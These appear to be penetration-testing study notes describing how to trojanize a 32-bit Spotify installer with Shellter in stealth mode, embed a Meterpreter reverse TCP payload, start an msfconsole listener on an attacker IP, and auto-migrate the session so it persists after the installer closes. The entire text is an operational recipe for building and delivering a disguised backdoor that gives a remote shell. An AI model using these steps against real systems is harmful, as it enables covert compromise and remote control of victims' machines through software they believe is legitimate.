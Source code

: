 We'll run in Auto mode for this example

Download 32-bit version of [Spotify Installer](https://www.spotify.com/de-en/download/windows/) onto Kali
  
In Shellter
***NOTE:**  Need to hold Ctrl key when backspacing for it to work*
- Select a Target PE (full/path/**SpotifySetup.exe**)  
- Choose Stealth Mode - Y     <- Attempts to restore flow of PE after payload has executed.  Less sus as it behaves normally.
- Choose Payload - Meterpreter Reverse TCP
	- **NOTE:** In order to restore the execution flow through the Stealth Mode option, custom payloads need to terminate by exiting the current thread.  After some testing, it seems that any non-Meterpreter payload fails to be executed correctly under Windows 11 and thus, we'll need to resort to Meterpreter-based payloads.
- Set Meterpreter Options - LHOST & LPORT  
-
  
In Kali:  
- Start a Meterpreter listener to catch the conn:  
```bash
msfconsole -x "use exploit/multi/handler; set LHOST <attacker_ip>; set LPORT <port>; set PAYLOAD windows/meterpreter/reverse_tcp"
```
	- Single line didn't work; had to generate manually

Transfer file to compromised Win machine.  
  
*****NOTE:** As it stands, the successful Meterpreter session will close out once the installer is either finished running OR is cancelled.  
  
Add an _AutoRunScript_ to migrate Meterpreter to a separate process immediately after session creation:  
```bash
set AutoRunScript post/windows/manage/migrate
```

Run compromised binary




